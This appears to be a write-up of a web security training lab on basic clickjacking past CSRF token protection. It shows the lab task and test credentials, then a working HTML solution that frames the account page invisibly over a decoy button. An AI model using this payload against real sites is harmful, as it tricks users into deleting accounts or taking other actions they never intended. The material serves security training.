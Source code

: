 # Basic clickjacking with CSRF token protection

## Task

This lab contains login functionality and a delete account button that is protected by a CSRF token. The goal of the lab is to entice the use into deleting their account.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The account is solved when the account is deleted.

You have an account on the application that you can use to help design your attack. The credentials are: carlos / montoya.
Note

The victim will be using Chrome so test your exploit on that browser.


## Solution

```xml
<html>
<head>
  <style>
    #target_website {
      position: relative;
      width: 278px;
      height: 326px;
      opacity: 0.00000001;
      z-index: 2;
      top: -297px;
      left: -20px;
    }

    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
    }
  </style>
</head>
<body>
  <div id="decoy_website">
   <button>Just click this button!</button>
  </div>
  <iframe id="target_website" src="https://acd01fcf1faf8e7f803a13ae00ed0095.web-security-academy.net/account">
  </iframe>
</body>

</html>
```